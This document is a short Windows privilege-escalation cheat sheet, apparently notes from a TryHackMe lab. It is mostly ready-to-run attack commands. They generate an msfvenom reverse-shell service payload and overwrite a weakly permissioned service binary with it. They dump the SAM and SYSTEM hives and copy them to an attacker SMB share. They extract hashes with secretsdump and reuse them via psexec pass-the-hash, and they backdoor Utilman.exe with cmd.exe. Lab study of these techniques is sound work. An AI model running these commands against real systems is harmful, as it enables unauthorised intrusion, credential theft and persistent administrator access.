 ## Check For Permissions
icacls C:\PROGRA~2\SYSTEM~1\WService.exe<br>
## Generate Service Payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4445 -f exe-service -o rev-svc.exe<br>
## Overwrite Service With Our Payload
cp C:\Users\thm-unpriv\Desktop\rev-svc.exe WService.exe<br>
Give Permissions To Our New Payload<br>
icacls WService.exe /grant Everyone:F<br>
Restart Our Service If We Can<br>
##On cmd.exe<br>
sc stop windowsscheduler<br>
sc start windowsscheduler<br>

# Privilege Abusing
## Check with

whoami /priv<br>
## SeBackup / SeRestore
First Cp Hive Files:<br>
reg save hklm\system C:\Users\sysbackup\system.hive<br>
reg save hklm\sam C:\Users\sysbackup\sam.hive<br>
Send Them To Attacker Host (Eg Smb)<br>
copy C:\Users\sysbackup\sam.hive \\10.11.23.111\public\<br>
copy C:\Users\sysbackup\system.hive \\10.11.23.111\public\<br>
Use Impacket's Secretsdump To Dump Hashes<br>
secretsdump.py  -sam sam.hive -system system.hive LOCAL<br>
Use Hashes (Eg. Psexec From Impacket)<br>
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.121.162<br>

## SeTakeOwnership
### Abuse Utilman.exe
### Take Control
takeown /f C:\Windows\System32\Utilman.exe<br>
### Give Privilege To Yourself
icacls C:\Windows\System32\Utilman.exe /grant UserTakeOwnership:F<br>
Rewrite Utilman<br>
copy cmd.exe utilman.exe<br>
#### After these steps lock your computer and press Ease of access button!<br>

## SeImpersonate
There are many exploits for this, try using JuicyPotato or RoguePotato, PrintSpoofer, JuicyPotatoNG<br>
